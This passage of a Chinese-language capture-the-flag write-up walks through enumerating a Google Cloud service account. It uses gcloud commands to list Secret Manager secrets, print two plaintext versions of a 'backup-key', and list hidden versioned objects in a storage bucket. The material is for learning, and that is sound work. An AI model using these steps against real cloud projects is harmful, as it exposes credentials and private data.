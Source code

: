 但发现里面的代码并不全，还有一些缺失的，不过是 dev 的存储，也能理解，那剩下的呢？

枚举一下这个服务账号的权限

![Untitled](./image/2024-05-28/Untitled%205.png)

发现还有个备份的key

```bash
> gcloud secrets list --project ctfs-417807

NAME        CREATED              REPLICATION_POLICY  LOCATIONS
backup-key  2024-04-30T03:59:43  automatic           -
```

扒拉用了一下不同的命令，就发现有两个版本的 backup-key

```bash
> gcloud secrets versions list backup-key --project ctfs-417807

NAME  STATE    CREATED              DESTROYED
2     enabled  2024-04-30T04:00:17  -
1     enabled  2024-04-30T03:59:45  -

> gcloud secrets versions access 1 --secret=backup-key --project ctfs-417807

mi@u7eij3Wae4

> gcloud secrets versions access 2 --secret=backup-key --project ctfs-417807

SRe6TCDV0eo|8
```

到这里就有点卡住了，等等？上面有说到版本，桶会不会也有版本控制？！

[https://cloud.google.com/sdk/gcloud/reference/storage/ls](https://cloud.google.com/sdk/gcloud/reference/storage/ls)

还真有，通过 -a 参数可以看所有版本，比如

```bash
> gcloud storage ls -a gs://cloud-vault-assets/cloudvault-dev-files

gs://cloud-vault-assets/cloudvault-dev-files/#1714402287147351
gs://cloud-vault-assets/cloudvault-dev-files/app.js#1714402876647574
gs://cloud-vault-assets/cloudvault-dev-files/package.json#1714449491779976
gs://cloud-vault-assets/cloudvault-dev-files/config/

> gcloud storage ls -a gs://cloud-vault-assets/cloudvault-dev-files/config

gs://cloud-vault-assets/cloudvault-dev-files/config/db.js#1714402948273829
gs://cloud-vault-assets/cloudvault-dev-files/config/firestore.json#1714402948237947
```
